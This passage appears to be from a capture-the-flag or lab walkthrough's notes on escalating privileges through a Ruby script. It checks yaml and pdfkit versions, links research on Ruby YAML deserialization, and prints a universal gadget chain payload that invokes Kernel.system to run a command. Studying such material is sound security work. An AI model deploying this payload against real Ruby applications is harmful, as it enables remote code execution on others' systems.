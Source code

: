     `cat /opt/sample/dependencies.yml`
    ```yaml
    yaml: 0.1.1
    pdfkit: 0.8.6
    ```

- I can't see what root does with `pspy64`: [https://www.cyberciti.biz/faq/linux-hide-processes-from-other-users/](https://www.cyberciti.biz/faq/linux-hide-processes-from-other-users/)

    `/etc/fstab`
    ```
    proc /proc proc defaults,nosuid,nodev,noexec,relatime,hidepid=2 0 0
    ```

- `gem list | grep -E "yaml|pdfkit"`

    ```
    yaml (default: 0.1.0)
    pdfkit (0.8.6)
    ```

    a difference compared to the sample file is highlighted:
    ```
    yaml: 0.1.1
    yaml (default: 0.1.0)
    ```

    [https://www.ruby-lang.org/en/news/2014/03/29/heap-overflow-in-yaml-uri-escape-parsing-cve-2014-2525/](https://www.ruby-lang.org/en/news/2014/03/29/heap-overflow-in-yaml-uri-escape-parsing-cve-2014-2525/)

    `ruby -rpsych -e 'p Psych.libyaml_version'`
    ```ruby
    [0, 2, 2]
    ```

    the version looks different but moreover it doesn't use [psych](https://github.com/ruby/psych) in the script

- [https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)
    
    [https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml)
    
    [https://www.elttam.com/blog/ruby-deserialization/](https://www.elttam.com/blog/ruby-deserialization/): RUBY 2.X UNIVERSAL RCE DESERIALIZATION GADGET CHAIN

    ```yaml
    - !ruby/object:Gem::Installer
        i: x
    - !ruby/object:Gem::SpecFetcher
        i: y
    - !ruby/object:Gem::Requirement
        requirements:
          !ruby/object:Gem::Package::TarReader
          io: &1 !ruby/object:Net::BufferedIO
            io: &1 !ruby/object:Gem::Package::TarReader::Entry
              read: 0
              header: "abc"
            debug_output: &1 !ruby/object:Net::WriteAdapter
              socket: &1 !ruby/object:Gem::RequestSet
                  sets: !ruby/object:Net::WriteAdapter
                      socket: !ruby/module 'Kernel'
                      method_id: :system
                  git_set: id
              method_id: :resolve